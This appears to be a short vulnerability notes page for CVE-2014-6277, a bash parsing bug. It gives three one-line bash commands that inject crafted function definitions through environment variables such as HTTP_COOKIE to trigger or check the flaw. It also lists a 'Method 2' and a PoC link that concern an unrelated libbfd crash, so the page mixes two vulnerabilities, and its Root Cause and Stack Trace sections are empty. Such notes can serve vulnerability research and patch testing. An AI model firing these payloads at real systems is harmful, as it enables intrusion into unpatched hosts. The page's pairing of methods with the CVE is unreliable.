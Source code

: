 # CVE-2014-6277

## Experiment Environment

CentOs 6.5

## INSTALL & Configuration

Preinstalled Environment

## Problems in Installation & Configuration


## How to trigger vulnerability

### Method 1

```
HTTP_COOKIE='() { x() { _; }; x() { _; } <<a; }' bash -c :

HTTP_COOKIE="() { x() { _; }; x() { _; } <<`perl -e '{print "A"x1000}'`; }" bash -c :

_x='() { echo vulnerable; }' bash -c '_x 2>/dev/null || echo not vulnerable'
```

### Method 2

```
strings strings-bfd-badptr2
```

## PoCs

[Binary File Descriptor Library (libbfd) - Out-of-Bounds Crash](https://www.exploit-db.com/exploits/35081/)

[GNU Bash CVE-2014-6277 Incomplete Fix Remote Code Execution Vulnerability](https://www.securityfocus.com/bid/70165/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

<http://www.openwall.com/lists/oss-security/2014/09/25/13/1>

## References

<https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html>
